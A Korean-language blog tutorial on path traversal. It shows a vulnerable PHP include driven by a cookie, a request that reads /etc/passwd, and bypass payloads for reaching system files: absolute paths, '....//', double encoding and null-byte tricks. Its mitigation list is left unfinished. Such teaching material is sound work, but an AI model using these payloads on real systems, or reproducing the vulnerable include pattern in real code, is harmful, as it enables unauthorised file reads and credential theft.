 ```yaml
---
layout: single
title: Path Traversal
categories: Web-vuln
tag: [Path Traversal, web, web vulnerability, injection]
toc: true
author_profile: false
---
```

# Path Traversal 이란 무엇인가?

> ./(현재 디렉토리) 또는 ../(상위 디렉토리로 이동)를 나타내는 문자들이 제대로 필터링되지 않아 파일 시스템 API로 전달되어, 허용된 디렉토리가 아닌 숨겨진 디렉토리 및 파일에 대한 무단 access를 가능하게 하는 취약점이며, 보통 File 명과 같이 사용자의 입력값이 전달되어, 찾아오는 로직에서 많이 발견된다.

<hr>

**Vulnerability Code**

```php
<?php
$template = 'red.php';
if (isset($_COOKIE['TEMPLATE'])) {
    $template = $_COOKIE['TEMPLATE'];
}
include "/home/users/phpguru/templates/" . $template;

인용 : https://en.wikipedia.org/wiki/Directory_traversal_attack
```

위와 같은 File을 가져오는 로직이 구성되어있다고 생각해보자. 그럼 사용자의 입력값이 include "/home/users/phpguru/templates/" . 뒤에 고스란히 이어붙여 진다. 이 때 디렉토리 이동 명령어가 필터링 되어 제거되지않고 적용된다면 어떻게 될까?
<br><br>

```
GET /vulnerable.php HTTP/1.0
Cookie: TEMPLATE=../../../../../../../../../etc/passwd
```

```
HTTP/1.0 200 OK
Content-Type: text/html
Server: Apache

root:fi3sED95ibqR6:0:1:System Operator:/:/bin/ksh 
daemon:*:1:1::/tmp: 
phpguru:f8fk3j1OIf31.:182:100:Developer:/home/users/phpguru/:/bin/csh
```

위와같이 passwd 파일을 탈취 될 수 있으며, 큰 피해로 이어질 수 있다.
<br><br>
이러한 취약점은 파일 경로에서 불러오는 경우와, API 요청을 통해 불러올 수도 있다.

```
/var/www/images/test.png/../../../etc/passwd

'''

https://insecure-test.com/findimage?filename=../../../etc/passwd
```

## 공격 표면

🌝 **<u>Path Traversal 취약점은 어떤 부분에서 나타나고 테스팅 해볼 수 있을까</u>** 
{: .notice--primary} 
<hr>
사용자의 요청이 서버내의 path로 연결되는 구간, API 요청에 의해 파일값을 불러오는 구간이 공격표면이 될 수 있다. 
<br>
./ 또는 ../ 와 같은 경로이동 문자열을 넣어봄으로써 응답값이 어떻게 돌아오는지 확인하면 Path Traversal 취약점이 존재하는지에 대한 유무 판단이 가능하다.

```
/var/www/images/test.jpg -> 200(ok)
/var/www/images/.test.jpg -> 200(ok)
/var/www/images/../images/test.jpg -> 200(ok)
```

하지만 위의 테스팅에서 200ok 를 받는다고 무조건 Path Traversal 취약점이 존재한다고 확신하기에는 불분명 하다.
<br>
이는 ./ 문자를 Path 그대로 받아들이는지 ./문자를 필터링하여 제거시켰는지에 대해 확실치 않기 때문이다.
<br>
이런 경우 ..//와 같이 ./가 제거되더라도 ..// → ./ 되기 때문에 테스팅해볼만하다.

```
/var/www/images/..//test.jpg
```

**<u style="color=red; ">만약 위의 테스트 결과가 404(Not Found) 가 뜬다면 이는 ./ 문자열이 제거가 되지 않는다는것을 의미한다.  200 ok가 반환 되더라도, ./가 필터링 되어 ./가되거나 아니면 이러한 제거로직을 반복구성 해놓았을 가능성도 존재한다.</u>**

## Bypass - Path Traversal
### Basic Bypass

```
GET /image?filename=../../../etc/passwd 200 (ok)
```

경로 이동 문자열을 통해 파일 시스템 서버의 최상단으로 올라가 passwd파일을 추출한다.

### Traversal sequences blocking

./ ../ 와 같은 시퀀스를 차단하는 로직이 구현되어 있더라도, 파일 시스템이 절대경로를 통해 파일을 가져올 경우 경로 이동 문자열 없이 원하는 파일을 가져올 수 있다.

```
GET /image?filename=/etc/passwd HTTP/2 200 (ok)
GET /image?filename=../../../etc/passwd HTTP/2 400 Bad Request
```

### Traversal sequences blocking2

../ 시퀀스가 필터링 되어 차단되더라도 ….// 문자열을 입력했을 때 로직이 반복적으로 탐지하여 차단하는 경우가 아니라면 ../ 가 사라지고 ….// → ../가 남아 우회가능성이 존재한다.

```
GET /image?filename=../../../etc/passwd HTTP/2 400 Bad Request
GET /image?filename=....//....//....//etc/passwd HTTP/2 200 (ok)
```

### Traversal sequences blocking3

입력값 검증 후 제거하는 로직이 반복적으로 순회하도록 되어있을 경우, URL 인코딩 Double 인코딩
또는 비표준 인코딩 등을 사용하여 우회할 수 있다.

```
GET /image?filename=..%252f..%252f..%252fetc/passwd HTTP/2 200 (ok)
```

### 정해진 위치에서부터의 경로 탐색

개발자가 특정 파일을 찾기위해서는 개발자가 정해놓은 특정 위치에서부터 절대경로로 검색해야 찾을 수 있도록 설정해놨을 경우도 존재한다.

```
GET /image?filename=/var/www/images/../../../etc/passwd HTTP/2
```

### 만약 파일시스템에서 특정 확장자로 끝나는지에 대한 검증 로직이 존재한다면?

null 바이트 문자를 이용하여 우회할 수 있다.

```
GET /image?filename=../../../etc/passwd%00.jpg HTTP/2 200(ok)
```

<br><hr>
<div class="notice">
  <h4>이러한 진입점들을 잘 찾아내는것이 중요하다. 파일의 본문내용을 경로로 사용되는 부분도 존재하며, 요청값과 응답값을 잘 확인하자.</h4>
</div>

# 대응 방안
1. 입력값에 대한 유효성 검사.
2. 

# Referance
- https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Directory%20Traversal